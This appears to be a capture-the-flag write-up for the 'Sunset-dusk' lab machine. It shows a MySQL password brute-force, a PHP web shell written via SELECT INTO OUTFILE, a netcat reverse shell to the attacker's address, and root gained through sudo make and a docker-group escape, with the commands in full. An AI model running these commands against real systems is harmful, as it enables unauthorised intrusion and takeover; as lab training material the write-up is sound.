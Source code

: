 ```yaml
---
layout: post
title: Sunset-dusk writeup
date: 2019-12-10 10:11
author: mzfr
---
```


## Nmap

![](images/dusk/nmap.png)

We can see lot of ports are open.

***

## MySQL

I didn't find anything good on the website so I decided to check the mysql, again I didn't had any logins for that so I started a dictionary attack on MySQL service, firsts I used `admin` as username but that didn't gave anything then I used `root` and that game me the password.

![](images/dusk/crack.png)

There was nothing in any of the table of any database.

So I moved on to look at the other port like `8080`.

![](images/dusk/port-8080.png)

We can see that there is a directory listing for `/var/tmp`. I tried to download those images and do some steganography but I didn't find anything. After spending some time I realise that we can try to use `mysql` to put a file on that directory.

I ran

```sql
select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/rce.php';
```

![](images/dusk/query.png)

And now we can see a `rce.php` file on that directory listing on port 8080.

![](images/dusk/rce-file.png)

Now that file is there we can run command. To check if it is working I read `/home`

![](images/dusk/rce.png)

Let's run the `reverse shell` code to get a reverse shell.

```bash
➜ http -b http://192.168.56.139:8080/rce.php\?cmd\="nc -e /bin/sh 192.168.56.1 4444"
```

![](images/dusk/rev.png)

And then I got the `user.txt`

![](images/dusk/user.png)

## Privilege escalation

Since I was on the system I decided to run my enumeration script. I noticed that `docker` was on the `dusk` group so we need to find a way to become `dusk` then we can use docker to escalate to root.

![](images/dusk/groups.png)

Since I didn't find anything for `dusk` on the enumeration so I checked the www-data's sudo right by running `sudo -l` and got some.

![](images/dusk/sudo-right.png)

Then I used [gtfo](https://github.com/mzfr/gtfo) to find those on [gtfobin](https://gtfobins.github.io/)

![](images/dusk/make-gtfo.png)

We know that we have the sudo right so we will use the last one

```bash
COMMAND='/bin/sh'
sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"
```

![](images/dusk/dusk.png)

Since now we are `dusk` we know we can easiy exploit the `docker` to become root. To exploit this we can use the famous [chrisfosterelli/rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/)

You can directly run it as

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

That didn't worked for me directly so I cloned the repository and then I ran

```bash
$ docker build -t rootplease .
$ docker run
```

![](images/dusk/docker.png)

This gives use the rootshell and now we can read the root flag.

![](images/dusk/root.png)

***

This was a really simple but amazing machine. Thanks to []() for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
